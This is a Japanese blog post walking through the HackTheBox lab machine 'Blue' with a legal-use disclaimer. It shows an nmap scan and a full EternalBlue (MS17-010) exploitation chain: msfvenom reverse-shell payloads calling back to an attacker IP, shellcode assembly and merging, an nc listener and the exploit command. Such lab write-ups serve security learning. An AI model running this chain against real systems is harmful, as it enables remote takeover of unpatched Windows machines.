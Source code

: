 ```yaml
---
title: 【Easy/Windows】Blue Writeup(HackTheBox)
date: "2022-07-27"
template: "post"
draft: false
slug: "hackthebox-windows-blue"
category: "HackTheBox"
tags:
  - "HackTheBox"
  - "Windows"
  - "EasyBox"
description: "HackTheBoxのリタイアマシン「Blue」のWriteUpです。"
socialImage: "/media/cards/no-image.png"

---
```


「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。

<img src="../../static/media/2022-07-27-hackthebox-windows-blue/327080.png" alt="Hack The Box">

今回は、HackTheBoxのリタイアマシン「Blue」のWriteUpです。

<!-- omit in toc -->
## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ
- [探索](#探索)
- [エクスプロイト](#エクスプロイト)


## 探索

まずはいつも通りクイックスキャンをかけていきます。

``` bash
$ sudo sed -i 's/^[0-9].*targethost.htb/10.10.10.40  targethost.htb/g' /etc/hosts
$ nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-07-27T11:37:27
|_  start_date: 2022-07-27T11:34:22
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-27T12:37:26+01:00
|_clock-skew: mean: -19m57s, deviation: 34m36s, median: 1s
```

WindowsのRemote Procedure Call関連のポートがいくつか空いているようです。

`Windows 7 Professional 7601 Service Pack 1`のプラットフォームでSMBのポートが開いているのでEternalBlueが刺さりそうです。

## エクスプロイト

[GitHub - worawit/MS17-010: MS17-010](https://github.com/worawit/MS17-010)より取得した`checker.py`を使ってみたところ、どのパイプ名も使用できないようでした。

``` bash
$ python eternalchecker.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED
```

同じくここで取得した`eternalblue_exploit7.py`に作成したペイロードを与えて実行したものの、シェルの取得にはいたりませんでした。

``` bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 > shellcode
$ python exploit.py 10.10.10.40 shellcode 
shellcode size: 324
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

パイプの名前が見つからなさそうなので、他のエクスプロイトを探索します。

``` bash
$ searchsploit eternal
----------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                           |  Path
----------------------------------------------------------------------------------------- ---------------------------------
Eternal Lines Web Server 1.0 - Remote Denial of Service                                  | multiple/dos/25075.pl
EternalMart Guestbook 1.10 - '/admin/auth.php' Remote File Inclusion                     | php/webapps/2980.txt
EternalMart Mailing List Manager 1.32 - Remote File Inclusion                            | php/webapps/23218.txt
Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code  | windows/remote/43970.rb
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)         | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Executio | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS17-01 | windows_x86-64/remote/42030.py
----------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

そこで、`MS17-010/eternalblue_exploit7.py`を使っていくことにしました。

``` bash
git clone https://github.com/worawit/MS17-010

nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=10.10.14.2 --platform windows -a x64 --format raw -o sc_x64_payload.bin
cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin

nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=10.10.14.2 --platform windows -a x86 --format raw -o sc_x86_payload.bin
cat sc_x86_kernel.bin sc_x86_payload.bin > sc_x86.bin

python2.7 MS17-010/shellcode/eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin

ifconfig tun0 mtu 1400
sudo nc -nlvp 443
python MS17-010/eternalblue_exploit7.py 10.10.10.40 sc_all.bin
```

実際のエクスプロイト手順は以下を参考にしました。

何故かペイロードのポートを4444にしたらうまくシェルが取れませんでしたが、443にしたらうまくいきました（なぜ？）

参考：[MS17-010 EternalBlue Manual Exploitation | root4loot](https://root4loot.com/post/eternalblue_manual_exploit/)

![image-20220728204938531](../../static/media/2022-07-27-hackthebox-windows-blue/image-20220728204938531.png)

とりあえずSystem権限でとれたのでフィニッシュ。





